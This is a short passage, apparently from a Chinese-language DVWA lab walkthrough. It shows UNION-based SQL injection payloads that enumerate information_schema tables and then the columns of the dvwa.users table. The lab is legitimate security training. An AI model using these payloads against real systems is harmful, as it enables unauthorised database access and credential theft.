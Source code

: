 先尝试下 `union` 联查一下表名,`' or 1=1 UNION SELECT table_schema, table_name FROM information_schema.tables;--`，得到这样的输出。

![image-20220427143108884](image-20220427143108884.png)

太长不全部截图了。接下来注意看一下可疑的表，直接 ctrl+f 在网页里搜 `user`，很快找到这里：

![image-20220427143202464](image-20220427143202464.png)

接着找出 `users` 表的字段名，还是通过 `information_schema` ，新的 payload如下。

```sql
' UNION SELECT c.COLUMN_NAME,c.COLUMN_TYPE  FROM information_schema.`COLUMNS` c WHERE c.TABLE_SCHEMA ='dvwa' AND c.TABLE_NAME ='users'; -- 
```
